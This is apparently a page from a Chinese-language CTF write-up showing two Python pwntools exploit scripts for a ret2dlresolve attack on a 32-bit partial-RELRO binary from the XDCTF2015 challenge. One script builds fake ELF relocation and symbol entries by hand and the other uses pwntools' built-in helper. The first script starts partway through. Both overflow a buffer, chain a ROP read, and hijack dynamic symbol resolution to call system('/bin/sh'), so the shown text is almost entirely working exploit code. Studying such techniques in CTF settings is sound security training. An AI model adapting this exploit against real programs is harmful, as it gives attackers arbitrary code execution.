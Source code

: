 ```python
fake_Elf32_Sym += p32(0)
fake_Elf32_Sym += p8(0x12) + p8(0) + p16(0)

strings_system_bin_sh = b"system\x00/bin/sh\x00"

# resolve的PLT，push link_map的位置
dyn_resolve_plt_addr = 0x08048380
# fake rel表项的偏移
rel_addr = 0x08048330 
fake_rel_offset = fake_rel_addr - rel_addr

fake_data = fake_Elf32_Rel + fake_Elf32_Sym + strings_system_bin_sh

payload = flat(['a'*0x6c+'bbbb'])
rop.raw(payload)
rop.read(0,bss_blank_addr,len(fake_data))
rop.raw(p32(dyn_resolve_plt_addr))
rop.raw(p32(fake_rel_offset))
rop.raw('cccc')
rop.raw(p32(bin_sh_addr))

io.recvuntil('Welcome to XDCTF2015~!')
io.send(rop.chain())
io.send(fake_data)
io.interactive()

```
pwntools 自带的模块：
```python
from pwn import *
context.binary = elf = ELF("partial_relro_32")
io = process("partial_relro_32")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
# pwntools will help us choose a proper addr
# https://github.com/Gallopsled/pwntools/blob/5db149adc2/pwnlib/rop/ret2dlresolve.py#L237
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io.recvuntil("Welcome to XDCTF2015~!\n")
payload = flat({112:raw_rop,256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```

